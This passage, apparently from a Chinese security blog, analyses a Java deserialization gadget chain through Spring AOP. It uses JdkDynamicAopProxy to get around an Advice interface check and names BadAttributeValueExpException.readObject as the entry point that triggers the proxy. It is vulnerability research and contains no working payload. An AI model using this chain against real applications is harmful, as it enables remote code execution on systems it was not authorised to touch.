

我们可以反射修改这个属性

我们跟进 getInterceptors 方法看看

```
public MethodInterceptor[] getInterceptors(Advisor advisor) throws UnknownAdviceTypeException {
    List<MethodInterceptor> interceptors = new ArrayList(3);
    Advice advice = advisor.getAdvice();
    if (advice instanceof MethodInterceptor) {
        interceptors.add((MethodInterceptor)advice);
    }

    Iterator var4 = this.adapters.iterator();

    while(var4.hasNext()) {
        AdvisorAdapter adapter = (AdvisorAdapter)var4.next();
        if (adapter.supportsAdvice(advice)) {
            interceptors.add(adapter.getInterceptor(advisor));
        }
    }

    if (interceptors.isEmpty()) {
        throw new UnknownAdviceTypeException(advisor.getAdvice());
    } else {
        return (MethodInterceptor[])interceptors.toArray(new MethodInterceptor[0]);
    }
}
```

其中获取最终来自于 advice，所以是可以控制的

```
public Advice getAdvice() {
    return this.advice;
}
```

如果这个变量同时实现 Advice 和 MethodInterceptor 接口，则可以将其添加到 interceptors，这个 interceptors 就是我们最终返回的目标 chain。

我们回到我们的需求，我们需要的是一个 AspectJAroundAdvice

而这个类正好实现了 MethodInterceptor 接口



可惜没有实现 Advice 接口

#### 突破 Advice 限制

那么我们就没有办法了吗？还是需要使用到 JdkDynamicAopProxy 类

我们使用这个类代理 Advice 和 MethodInterceptor 接口，设置 target 是 AspectJAroundAdvice，因为我们的需求是调用到 getInterceptors 方法，这个方法是接口 MethodInterceptor 实现的

## source 点分析

那么现在来到我们的 source 点，sink 点已经完全可以控制了，如果触发 invoke 方法呢？

emmm 这个就简单说一下动态代理了

动态代理是 Java 反射机制的一部分，允许在运行时创建代理对象，并拦截对目标对象的方法调用。这种方式广泛用于 AOP（面向切面编程）、权限控制、日志记录、事务管理等场景。

看这样一个例子

```
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
import java.lang.reflect.Proxy;

// 1. 定义接口
interface Service {
    void doSomething();
}

// 2. 目标类（被代理的类）
class RealService implements Service {
    public void doSomething() {
        System.out.println("执行真实业务逻辑...");
    }
}

// 3. 代理处理器
class MyInvocationHandler implements InvocationHandler {
    private final Object target;

    public MyInvocationHandler(Object target) {
        this.target = target;
    }

    @Override
    public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
        System.out.println("方法调用前的增强逻辑...");
        Object result = method.invoke(target, args); // 调用目标对象的方法
        System.out.println("方法调用后的增强逻辑...");
        return result;
    }
}

public class JdkProxyExample {
    public static void main(String[] args) {
        // 4. 创建代理对象
        Service realService = new RealService();
        Service proxyService = (Service) Proxy.newProxyInstance(
                realService.getClass().getClassLoader(),
                new Class[]{Service.class},  // 必须是接口
                new MyInvocationHandler(realService)
        );

        // 5. 调用代理方法
        proxyService.doSomething();
    }
}
```

核心就是会调用代理类的invoke 方法

那么其实就非常简答了，找到一个readobject 方法，其中有我们可以控制的对象，而且调用了对象的任意方法的

其实类就呼之欲出了，就是我们的 BadAttributeValueExpException 类

```
private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
    ObjectInputStream.GetField gf = ois.readFields();
    Object valObj = gf.get("val", null);

    if (valObj == null) {
        val = null;
    } else if (valObj instanceof String) {
        val= valObj;
    } else if (System.getSecurityManager() == null
            || valObj instanceof Long
            || valObj instanceof Integer
            || valObj instanceof Float
            || valObj instanceof Double
            || valObj instanceof Byte
            || valObj instanceof Short
            || valObj instanceof Boolean) {
        val = valObj.toString();
    } else { // the serialized object is from a version without JDK-8019292 fix
        val = System.identityHashCode(valObj) + "@" + valObj.getClass().getName();
    }
}
```

其中我们的 valObj 是可以控制的，会调用它的 toString 方法，然后触发代理类的invoke方法

实现了闭环  
思路tql了，

参考<https://mp.weixin.qq.com/s/oQ1mFohc332v8U1yA7RaMQ>
